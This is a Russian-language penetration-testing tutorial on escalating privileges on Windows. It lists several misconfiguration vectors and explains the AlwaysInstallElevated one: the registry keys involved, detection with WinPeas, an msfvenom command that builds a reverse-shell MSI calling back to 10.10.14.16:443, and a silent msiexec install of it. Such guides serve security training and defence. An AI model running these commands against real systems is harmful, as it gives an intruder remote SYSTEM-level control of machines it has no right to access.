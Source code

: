 ### Эксплуатация уязвимостей конфигурации ОС Windows

В этой категории яркими примерами возможных методов повышения привилегий будут следующие:

- Повышение привилегий через права на создание резервных копий (SeBackupPrivilege)
- Повышение привилегий через перехват сервиса (Weak Services Permission)
- Повышение привилегий через имперсонификацию SeImpersonatePrivilege (JyicyPotato)
- Повышение привилегий через права на установку ПО (AlwaysInstallElevated)
- Повышение привилегий через изменение пути бинарного файла сервиса (Service Binary Path)
- Повышение привилегий через подмену DLL библиотек (DLL Hijacking)
- Повышение привилегий через неэкранированные пути сервисов (Unquoted Service Paths)

### Повышение привилегий через права на установку ПО (AlwaysInstallElevated):

пример некорректной конфигурации ОС Windows
Такая конфигурация позволяет нам воспользоваться случаем и повысить привилегии до прав системы. В ряде случаев
администраторы не ограничивают пользователей в самостоятельной установке ПО.

Настройка производится через изменение ключей реестра (HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer и
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer) и указывает системе разрешать пользователю установку файлов *.msi, а
установка, в свою очередь, производится с повышенными привилегиями (NT AUTHORITY\SYSTEM).

#### Обнаружение в WinPeas

Если WinPeas увидит такую возможность, то отобразит нам ее в следующем виде:

Более подробную информацию о данном векторе можно получить по следующим ссылкам:

    AlwaysInstallElevated
    System Binary Proxy Execution: Msiexec

Эксплуатация

Для реализации атаки необходимо сгенерировать файл с полезной нагрузкой в формате msi:

>msfvenom --platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f msi -o rev.msi

Эта команда использует утилиту "msfvenom" из фреймворка Metasploit для создания исполняемого файла "rev.msi", который
содержит обратную оболочку для Windows x64 и связывается с IP-адресом 10.10.14.16 на порту 443.

Подробнее о параметрах команды:

    --platform windows — указывает, что будет использоваться платформа Windows
    -a x64 — указывает, что будет использоваться архитектура x64
    -p windows/x64/shell_reverse_tcp — выбирает тип обратной оболочки, которая будет использоваться в исполняемом файле
    LHOST=10.10.14.16 — задает IP-адрес, на который будет устанавливаться обратная связь
    LPORT=443 — задает порт, на который будет устанавливаться обратная связь
    -f msi — указывает формат файла, который будет создан (в данном случае это MSI-файл Windows Installer)
    -o rev.msi — задает имя и путь для выходного файла

Запуск “установщика”

Для запуска установщика из консоли необходимо использовать инструмент MSIEXEC.

MSIEXEC - средство установки, изменения и выполнения операций установщика Windows из командной строки.

>msiexec /quiet /qn /i rev.msi

Команда msiexec /quiet /qn /i rev.msi запускает установку MSI-файла rev.msi с использованием утилиты msiexec в режиме "
тихой" установки.

Подробнее о параметрах команды:

    /quiet — указывает на режим тихой установки, в котором пользователю не будут выводиться диалоговые окна и сообщения
    /qn — указывает на то, что будет использоваться минимальный уровень отображения информации о ходе установки
    /i — указывает, что будет произведена установка MSI-пакета
    rev.msi — имя MSI-файла, который будет устанавливаться

Таким образом, команда позволяет запустить процесс тихой установки MSI-пакета без вывода диалоговых окон и сообщений о
ходе установки. В данном случае, это позволит запустить исполняемый файл, созданный с помощью утилиты "msfvenom", и
установить на компьютер обратную оболочку для удаленного управления.